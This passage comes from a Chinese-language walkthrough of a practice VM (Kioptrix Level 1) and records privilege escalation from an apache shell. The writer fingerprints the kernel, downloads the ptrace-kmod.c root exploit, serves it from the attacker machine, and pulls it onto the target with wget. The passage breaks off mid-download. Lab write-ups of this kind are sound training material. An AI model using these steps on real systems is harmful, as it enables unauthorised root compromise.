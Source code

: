 						    4096 Sep 26  2009 sbin
						  drwxrwxrwt    2 root     root         1024 Mar  2 04:47 tmp
						  drwxr-xr-x   16 root     root         4096 Sep 26  2009 usr
						  drwxr-xr-x   20 root     root         1024 Sep 26  2009 var
						  bash-2.05$ 
						  
						  ```
					- 進一步取得 root 權限
						- ```shell
						  bash-2.05$ uname -a
						  uname -a
						  Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
						  ```
						- ```shell
						  bash-2.05$ cat /etc/redhat-release
						  cat /etc/redhat-release
						  Red Hat Linux release 7.2 (Enigma)
						  ```
						- ```shell
						  bash-2.05$ id
						  id
						  uid=48(apache) gid=48(apache) groups=48(apache)
						  ```
						- 建立提權腳本
							- ```shell
							  ┌──(kali㉿kali)-[~/Documents]
							  └─$ wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
							  
							  --2025-03-02 05:00:22--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
							  Resolving dl.packetstormsecurity.net (dl.packetstormsecurity.net)... 198.84.60.200
							  Connecting to dl.packetstormsecurity.net (dl.packetstormsecurity.net)|198.84.60.200|:443... connected.
							  HTTP request sent, awaiting response... 200 OK
							  Length: 3921 (3.8K) [text/x-csrc]
							  Saving to: ‘ptrace-kmod.c’
							  
							  ptrace-kmod.c                                              100%[========================================================================================================================================>]   3.83K  --.-KB/s    in 0s      
							  
							  2025-03-02 05:00:23 (185 MB/s) - ‘ptrace-kmod.c’ saved [3921/3921]
							  
							                                                                                                                                                                                                                                              
							  ┌──(kali㉿kali)-[~/Documents]
							  └─$ ls
							  47080.c  malfind_output  OpenFuck  ptrace-kmod.c  volatility
							                                                                                                                                                                                                                                              
							  ┌──(kali㉿kali)-[~/Documents]
							  └─$ python3 -m http.server 8000                                        
							  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
							  192.168.204.44 - - [02/Mar/2025 05:03:04] "GET /ptrace-kmod.c HTTP/1.0" 200 -
							  ```
						- 成功提權
							- ```shell
							  bash-2.05$ wget http://192.168.204.30:8000/ptrace-kmod.c
							  wget http://192.168.204.30:8000/ptrace-kmod.c
							  --06:04:53--  http://192.168.204.30:8000/ptrace-kmod.c
							             => `ptrace-kmod.c'
							  Connecting to 192.168.204.30:8000... connected!
							  HTTP request sent, awaiting response... 200 OK
							  Length: 3,921 [text/x-csrc]
							  